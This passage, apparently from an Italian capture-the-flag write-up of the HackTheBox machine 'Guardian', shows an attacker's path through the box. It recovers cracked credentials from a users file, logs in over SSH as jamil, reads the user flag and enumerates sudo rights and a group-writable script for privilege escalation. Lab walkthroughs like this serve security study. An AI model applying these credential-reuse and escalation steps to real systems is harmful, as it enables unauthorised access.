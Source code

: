 ```bash
$ cat users.txt| grep -E "(694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6|c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250)"                              
admin   694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6
jamil.enockson  c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250
```

Si ottengono le credenziali di **admin:fakebake000** e di **jamil:copperhouse56**.

Si tenta l'accesso a ssh con **jamil:copperhouse56**.

```bash
$ ssh jamil@guardian.htb
```

Funziona!

## Shell as jamil

Si accede al file **user.txt**.

```bash
jamil@guardian:~$ cat user.txt
e10b4c29cc02
```

## Privilege Escalation

```bash
jamil@guardian:~$ sudo -l
Matching Defaults entries for jamil on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jamil may run the following commands on guardian:
    (mark) NOPASSWD: /opt/scripts/utilities/utilities.py
```

Si ha la possibilita' di eseguire il comando con i privilegi di **mark**.

```bash
jamil@guardian:~$ /opt/scripts/utilities/utilities.py -h
usage: utilities.py [-h] {backup-db,zip-attachments,collect-logs,system-status}

University Server Utilities Toolkit

positional arguments:
  {backup-db,zip-attachments,collect-logs,system-status}
                        Action to perform
options:
  -h, --help            show this help message and exit
```

Si enumerano le risorse alla quale si ha accesso come **jamil**.

```bash
jamil@guardian:~$ id
uid=1000(jamil) gid=1000(jamil) groups=1000(jamil),1002(admins)

jamil@guardian:~$ find / -group admins -type f -exec ls -lah '{}' \; 2>/dev/null
-rw-r----- 1 root admins 287 Apr 19 08:15 /opt/scripts/utilities/utils/attachments.py
-rw-r----- 1 root admins 246 Jul 10 14:20 /opt/scripts/utilities/utils/db.py
-rwxrwx--- 1 mark admins 253 Apr 26 09:45 /opt/scripts/utilities/utils/status.py
-rw-r----- 1 root admins 226 Apr 19 08:16 /opt/scripts/utilities/utils/logs.py
-rwxr-x--- 1 root admins 1.2K Apr 20 14:45 /opt/scripts/utilities/utilities.py
```
